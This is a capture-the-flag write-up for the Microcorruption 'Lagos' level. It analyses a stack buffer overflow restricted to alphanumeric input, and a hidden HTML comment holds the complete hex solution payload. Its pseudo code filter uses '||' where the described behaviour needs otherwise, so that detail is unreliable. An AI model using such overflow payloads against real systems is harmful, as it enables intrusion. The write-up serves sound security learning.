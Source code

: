 # Lagos
> source code [here](./dump.asm)  
> **Vulnerability**: stack buffer overflow

## Analysis
pseudo code for `main`, assembly code [here](./dump.asm)
```c
void login() {
  // push r11
  // add #0xfff0, sp ; sp -= 0x10
  void *input_buffer = 0x2400;
  ...
  gets(input_buffer, 0x200);     // gets input
  int index = 0;
  // start from instrcution, 45a0
  while (1) {
    uint8_t c = input_buffer[index];
    ++index;
    if ((c - 0x30) > 9 || (c - 0x41) > 25 || (c - 0x61) > 25) {
      break;
    }
    sp[index] = c;              // sp = 0x43ec
  }
  memset(input_buffer, 0, 0x200);
  if (conditional_unlock_door(sp)) {
    puts ("Access granted.");
  } else {
    puts ("That password is not correct.");
  }
}
```

Stack size is 0x10 and the program takes in **0x200 bytes**, which will be copied to stack under certain condition. That is, ***exist stack buffer overflow*** vulnerability.
However, the program will only copy **alphanumerical** (0-9a-zA-Z) to the stack so the exploit need to be carefully crafted.

<details>
<summary>Observation not used...</summary>

Suppose the all the instruction remain unchanged, the program has the ability to modify the memory from `0x43ed` to `0x45ed`. However, the function `<logic>` starts from `0x455e` and the modification loop starts from `0x45a0`. Therefore, the program may behave differently if the modification loop is modified.

</details>

## Exploit
Detail [here](./solve.py).

<!-- solution: {\"level_id\":17,\"input\":\"46616161616161616161616161616130446c44324434446262626262626262626262626262626262626262626262626262626262626262626262626262626262626262794170416e4b6e526e536154315078433041;\"} -->
